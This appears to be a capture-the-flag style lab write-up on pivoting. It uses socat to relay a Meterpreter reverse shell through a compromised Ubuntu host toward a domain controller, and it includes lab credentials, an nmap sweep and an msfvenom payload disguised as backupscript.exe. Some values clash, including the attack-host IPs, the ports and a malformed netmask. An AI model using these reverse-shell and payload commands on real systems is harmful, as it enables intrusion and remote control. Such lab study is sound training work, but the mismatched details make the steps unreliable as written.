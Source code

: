 ## Socat Redirection with a Reverse Shell

[Socat](https://linux.die.net/man/1/socat) is a bidirectional relay tool that can create pipe sockets between **2** independent network channels without needing to use SSH tunneling. It acts as a redirector that can listen on one host and port and forward that data to another IP address and port. We can start Metasploit's listener using the same command mentioned in the last section on our attack host, and we can start **socat** on the Ubuntu server. 


#### Jump box credentials 10.129.120.53 (ACADEMY-PIVOTING-LINUXPIV)

Username: ubuntu
Password: HTB_@cademy_stdnt!

### External and Internal Network IP's

![Ifconfig](/socat-reverse-shell/images/network.png) 

Internal IP: 172.16.5.129
Netmask: 225.225.254.0
Broadcast IP: 172.16.5.255

### Internal scanning for other hosts.

We can do a ping sweep on 172.16.5.0/23 to see if we can find any other alive hosts.

	$ ./nmap -v -sn 172.16.5.0/23 -oA nmap-ping-scan


![Nmap ping sweep](/socat-reverse-shell/images/nmap-ping-sweep.png) 

#### Alive internal hosts from ping scan

172.16.5.19
172.16.5.129

> - 172.16.5 129 is our ubuntu host so the only other host on the network is 172.16.5.19

From just doing a quick scan of the .19 host it appears to be a domain controller from the open ports

![Nmap ping sweep](/socat-reverse-shell/images/dc-host.png) 

### Starting Socat Listener


Socat will listen on localhost on port **5555** and forward all the traffic to port **9001** on our attack host (10.10.14.18). Once our redirector is configured, we can create a payload that will connect back to our redirector, which is running on our Ubuntu server. We will also start a listener on our attack host because as soon as socat receives a connection from a target, it will redirect all the traffic to our attack host's listener, where we would be getting a shell.

	$ socat TCP4-LISTEN:5555,FORK TCP4:10.10.15.168:9001


![Socat Lister](/socat-reverse-shell/images/socat-reverse-shell.png) 


### Creating the Windows Payload

	$ msfvenom -p windows/x64/meterpreter/reverse_https lhost=172.16.5.129 lport=4444 -f exe -o backupscript.exe

Keep in mind that we must transfer this payload to the Windows host. We can use some of the same techniques used in previous sections to do so.


![Payload](/socat-reverse-shell/images/met-payload.png) 

### Configuring and Starting multi / handler


![Multi Handler](/socat-reverse-shell/images/multi-handler.png) 


We can test this by running our payload on the windows host again, and we should see a network connection from the Ubuntu server this time.

![Proxy](/socat-reverse-shell/images/socks-proxy.png) 

### Establishing the Meterpreter Session


![Root](/socat-reverse-shell/images/root.png) 
